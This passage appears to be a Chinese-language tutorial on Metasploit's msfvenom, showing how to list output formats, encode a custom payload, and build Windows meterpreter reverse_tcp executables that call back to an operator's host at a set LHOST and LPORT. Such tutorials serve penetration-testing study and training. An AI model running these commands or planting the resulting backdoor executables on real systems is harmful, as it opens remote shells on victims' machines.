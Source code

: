 **-p 参数也支持使用 - 作为值来从标准输入中读取自定义的 Payload**

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

##### c. 获取msfvenom支持的输出格式:

```
msfvenom  -f --help-formats
```

###### 可执行的格式:

```
asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-small、hta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、vba、vba-exe、vba-psh、vbs、war
```

###### shellcode格式:

```
bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript
```

#### 2、payload生成:

在使用msfvenom生成payload的时候,  -p和-f  参数是必选的,其他参数是可选的.

##### 简单案例:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=9999 -f exe > 1.exe 

参数解释:
		-p            指定使用的payload(也就是说我们生成的马是使用了这个payload生成的)
		LHOST(本机ip)、LPORT(本机端口)   这个是该payload需要设置的参数(可以通过--list-options)
		-f            指定生成文件的格式	
		>             将生成的文件重定向到某个文件(也可以使用-o选项替代)
```

##### (1) 各个平台生成二进制格式的payload:

###### windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=9999 -a x86 --platform Windows -f exe > shell.exe

注释:
	使用该payload默认是生成32位的程序,如需生成64位的程序请使用下面的payload.
	
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=9999 -f exe > shell.exe

问题:
	为什么使用第一种payload生成的马在64位操作系统也可以正常运行?
答案:
	64位系统能兼容大部分32位的软件,所以64位的机器也可以不使用x64 payload
```
